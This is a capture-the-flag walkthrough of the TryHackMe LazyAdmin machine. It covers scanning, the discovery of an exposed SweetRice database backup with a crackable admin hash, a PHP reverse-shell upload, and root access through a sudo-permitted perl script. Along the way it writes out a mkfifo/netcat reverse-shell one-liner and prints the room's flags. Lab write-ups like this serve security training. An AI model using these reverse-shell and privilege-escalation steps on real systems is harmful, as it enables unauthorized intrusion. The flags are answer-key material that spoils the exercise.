 # LazyAdmin

Easy linux machine to practice your skills

[LazyAdmin](https://tryhackme.com/room/lazyadmin)

## Chủ đề của

- Network Enumeration
- Web Enumeration
- Backup Poking
- Brute Forcing (Hash)
- Misconfigured Binaries

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Lazy Admin

Have some fun! There might be multiple ways to get user access.

`Note: It might take 2-3 minutes for the machine to boot`

```
bibo318@parrot:~/CTFs/tryhackme/LazyAdmin$ sudo nmap -A -sS -sC -sV -O 10.10.230.157
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 18:57 CEST
Nmap scan report for 10.10.230.157
Host is up (0.061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/14%OT=22%CT=1%CU=33945%PV=Y%DS=2%DC=T%G=Y%TM=5F872E
OS:0B%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=B)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   72.64 ms 10.8.0.1
2   72.70 ms 10.10.230.157

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.74 seconds
```

```
bibo318@parrot:~/CTFs/tryhackme/LazyAdmin$ sudo /opt/dirsearch/dirsearch.py -u 10.10.230.157 -w /usr/share/dirb/wordlists/common.txt -e html,php

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-14_18-58-34.log

Target: 10.10.230.157

Output File: /opt/dirsearch/reports/10.10.230.157/_20-10-14_18-58-34.txt

[18:58:34] Starting:
[18:58:39] 301 -  316B  - /content  ->  http://10.10.230.157/content/
[18:58:41] 200 -   11KB - /index.html
[18:58:45] 403 -  278B  - /server-status

Task Completed
```

[http://10.10.230.157/content/](http://10.10.230.157/content/)

![](./2020-10-14_18-59.png)

```
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

```
bibo318@parrot:~/CTFs/tryhackme/LazyAdmin$ sudo /opt/dirsearch/dirsearch.py -u 10.10.230.157/content -w /usr/share/dirb/wordlists/common.txt -e html,php
[sudo] password for kali:

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-14_19-01-38.log

Target: 10.10.230.157/content

Output File: /opt/dirsearch/reports/10.10.230.157/content_20-10-14_19-01-38.txt

[19:01:38] Starting:
[19:01:39] 301 -  324B  - /content/_themes  ->  http://10.10.230.157/content/_themes/
[19:01:42] 301 -  319B  - /content/as  ->  http://10.10.230.157/content/as/
[19:01:42] 301 -  327B  - /content/attachment  ->  http://10.10.230.157/content/attachment/
[19:01:47] 301 -  323B  - /content/images  ->  http://10.10.230.157/content/images/
[19:01:48] 301 -  320B  - /content/inc  ->  http://10.10.230.157/content/inc/
[19:01:48] 200 -    2KB - /content/index.php
[19:01:48] 301 -  319B  - /content/js  ->  http://10.10.230.157/content/js/

Task Completed
```

LOGIN: [http://10.10.230.157/content/as/](http://10.10.230.157/content/as/)

[http://10.10.230.157/content/inc/](http://10.10.230.157/content/inc/)

[http://10.10.230.157/content/inc/mysql_backup/](http://10.10.230.157/content/inc/mysql_backup/)

```sql
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

`42f749ade7f9e195bf475f37a44cafcb md5 Password123`

`manager:Password123`

[http://10.10.230.157/content/as/?type=media_center](http://10.10.230.157/content/as/?type=media_center)

`http://10.10.230.157/content/attachment/php-reverse-shell.phtml`

```
bibo318@parrot:~/CTFs/tryhackme/LazyAdmin$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.230.157] 55546
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:09:00 up 13 min,  0 users,  load average: 0.01, 0.08, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{V0N318*****63e5bce9271952aad1113b6f1ac28a07}
```

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9002 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

```
bibo318@parrot:~/CTFs/tryhackme/LazyAdmin$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.230.157] 58634
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{V0N318*****6637f41d0177b6f37cb20d775124699f}
```

1. What is the user flag?

`THM{V0N318*****63e5bce9271952aad1113b6f1ac28a0712**123:))}`

2. What is the root flag?

`THM{V0N318*****6637f41d0177b6f37cb20d775124699f12**123:))}`
